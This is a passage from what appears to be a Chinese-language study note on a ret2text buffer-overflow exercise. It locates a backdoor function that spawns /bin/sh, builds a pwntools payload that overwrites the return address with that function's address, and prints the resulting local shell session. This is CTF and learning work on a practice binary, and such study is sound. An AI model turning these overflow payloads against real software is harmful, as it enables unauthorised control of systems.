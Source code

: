   ```C
  int get_shell()
  {
    system("/bin/sh");
    return 0;
  }
  ```

* 查找后门函数地址

  ```
  ida View-A (text view) --> 左侧函数双击后门函数即可跳转到响应汇编的.text地址
  此处观察得到其地址为 0x08048522
  所以构造payload时应该用 p32(0x08048522) 打包成 raw data
  由于是4个字节因此对应32比特,用p32打包
  注意发送payload后需要调用
  io.interactive()
  进入交互模式，可以观察到此时已经在python交互模式下获得了一个shell，可以使用pwd,ls等命令，夺取了本机的控制权
  ```

  <img src="D:\github\pwn\pwn_study\images\locate_getshell_address.png" alt="locate_getshell_address" style="zoom: 33%;" />

* 效果

  ```python
  >>> from pwn import *
  >>> io=process('./ret2text')
  [x] Starting local process './ret2text'
  [+] Starting local process './ret2text': pid 138946
  >>> io.recvline()
  b'Have you heard of buffer overflow?\n'
  >>> payload = b'A' * 16 + b'BBBB' +p32(0x08048522)
  >>> io.sendline(payload)
  >>> io.interactive()
  [*] Switching to interactive mode
  ls
  ret2text
  pwd
  /home/ganliber/Documents/ROP/Q1
  ls -alh
  total 24K
  drwxrwxr-x 2 ganliber ganliber 4.0K 6月   2 02:10 .
  drwxrwxrwx 4 ganliber ganliber 4.0K 6月   1 23:44 ..
  -rw------- 1 ganliber ganliber  127 6月   2 02:10 .gdb_history
  -rwxrw-rw- 1 ganliber ganliber 9.7K 5月   8  2020 ret2text
  ls
  ret2text
  ```

* 脚本攻击

  > 可以先切换为`sh`，然后攻击后用`echo $SHELL`查看当前的shell

  ```python
  ganliber@ganliber-virtual-machine:~/Documents/ROP/Q1$ python3 exp.py
  [+] Starting local process './ret2text': pid 139154
  [*] Switching to interactive mode
  $ echo $SHELL
  /bin/zsh
  $  
  ```
